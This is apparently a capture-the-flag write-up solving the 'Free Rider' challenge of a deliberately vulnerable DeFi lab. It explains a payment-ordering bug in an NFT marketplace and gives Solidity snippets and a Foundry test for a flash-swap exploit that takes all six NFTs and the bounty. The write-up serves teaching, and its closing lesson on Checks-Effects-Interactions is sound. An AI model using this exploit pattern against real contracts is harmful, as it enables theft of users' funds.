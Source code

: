 ## Free Rider solution

"If only you could get free ETH, at least for an instant." And we could, indeed!

But first, let's look at the code. It has two main functions for offering and buying NFTs. There are 6 NFTs already offered at the price of 15 ETH each. What we are interested in is how the buy function handles ETH transfer. It seems that whoever the owner of the NFT receives payment. 

```
// pay seller using cached token
        payable(_token.ownerOf(tokenId)).sendValue(priceToPay);
```
However, if we look just above this line we see that the NFT transfer happens before the actual payment! Which practically means that the buyer of the NFT gets refunded with the ETH he sent. And in that case we would only need 15 ETH to get all the NFTs offered.

```
        // transfer from seller to buyer
        DamnValuableNFT _token = token; // cache for gas savings
        _token.safeTransferFrom(_token.ownerOf(tokenId), msg.sender, tokenId);

        // pay seller using cached token
        payable(_token.ownerOf(tokenId)).sendValue(priceToPay);
```

So, how do we obtain 15 ETH? Obviously, using a flashloan. UniswapV2 offers something called a `flashswap` within its `swap`function in the `Pair` contract. It allows one to utilize flashloan functionality using the same function for swaps. The only thing required for borrower is to pass any data when calling the `swap` function and implement `IUniswapV2Callee` interface with `uniswapV2Call` function, which will receive the flashloan. Here we will code the logic desired:

1. We are taking the flashloan in WETH, so we need to withdraw it for ETH first
    `weth.withdraw(amount1);`
2. Then we call `buyMany` function, sending the amount borrowed (15 ETH) and passing in an array of `tokenIds`
    `marketplace.buyMany{value: amount1}(tokenIds);`
3. Since NFTs are sent via the `safeTransferFrom` function, we would also need to implement `IERC721Receiver` interface and return this magic value on each NFT trasfered: `IERC721Receiver.onERC721Received.selector`
4. Then we transfer out NFTs to the recovery contract to get our bounty. Here we need to specify the data parameter for `safeTransferFrom` function. It would be the same one with which we called the `swap` function
    ```
    for (uint256 i; i < tokenIds.length; ++i) {
            marketplace.token().safeTransferFrom(
                address(this),
                address(recovery),
                i,
                data
            );
        }
    ```
5. Finally, we deposit our ETH to WETH contract and send back the WETH to `Pair` conract plus small fee.

So, is the bounty in our contract? Actually, no. The `data` parameter with which it all started contains the address where we want to receive the bounty as per this requirement in the `recovery` contract.
```
if (++received == 6) {
            address recipient = abi.decode(_data, (address));
            payable(recipient).sendValue(PRIZE);
        }
```

Overall, a test would look something like this:
```
    function testExploit() public {
        vm.startPrank(attacker, attacker);
        // Send a small amount of ETH to pay for fee later
        flashSwap = new FlashSwap{value: 0.01 ether}(
            payable(address(marketplace)),
            address(recovery),
            payable(address(uniswapV2Pair)),
            payable(address(weth))
        );
        vm.label(address(flashSwap), "FlashSwap contract");

        // Define data so that UniswapV2Pair.swap() could perform flashswap
        // Data must be attacker's address so that we can get the bounty
        bytes memory data = abi.encode(attacker);

        // Perform a flashswap
        uniswapV2Pair.swap(0, 15 ether, address(flashSwap), data);
        vm.stopPrank();
        validation();
    }
```

Once again we learnt that code must adhere to Checks-Effects-Interactions pattern. In this particular case payment should have preceded the token transfer.
